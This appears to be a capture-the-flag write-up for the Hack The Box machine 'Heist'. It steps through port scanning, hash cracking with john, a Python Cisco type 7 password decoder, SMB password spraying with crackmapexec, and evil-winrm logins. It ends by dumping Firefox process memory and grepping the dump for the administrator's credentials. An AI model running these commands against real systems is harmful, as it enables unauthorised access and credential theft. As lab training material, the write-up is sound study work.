# [Heist](https://app.hackthebox.com/machines/heist)

```bash
nmap -p- --min-rate 10000 10.10.10.149 -Pn
```




Let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p80,135,445,5985 10.10.10.149
```




I access the web application and login as `guest` user.




I see attachments section from here, and see sensitive credentials from here.




I cracked this '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' hash via `john` tool.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
```




Password is 'stealth1agent'


I found this [blog](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html) to crack Cisco type passwords.

I wrote a Python script to crack these passwords.

```python
#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)
```




Until now, let's see my grabbed passwords.

```bash
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```


I check these passwords for `hazard` user via `crackmapexec` tool.
```bash
crackmapexec smb -u hazard -p passwords 10.10.10.149
```




Let's collect all domain info via this account by using script '**lookupsid.py**' script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py hazard:stealth1agent@10.10.10.149
```




I collect usernames from here.

```bash
support
chase
jason
administrator
```

Let's again do brute-force theese passwords and usernames list.

```bash
crackmapexec smb 10.10.10.149 -u users -p passwords
```




Let's login into machine via `chase` credentials by using `evil-winrm` tool.
```bash
evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
```

user.txt




While enumeration via `get-process firefox`, I see many tabs that's why I need to dump some sensitive data from here.


For this, I will use [Out-MiniDump](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)


After uploading this powershell script into machine, we need to import this as module.
```bash
Import-Module .\Out-Minidump.ps1
```




Let's use this script for specific process for `Firefox`.




After downloading this `.dmp` file, we need to read data from here.
```bash
grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox_2976.dmp
```




I grab administrator's password from here.

administrator: 4dD!5}x/re8]FBuZ


Let's login into machine via `evil-winrm` to grab root.txt
```bash
evil-winrm -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
```


root.txt

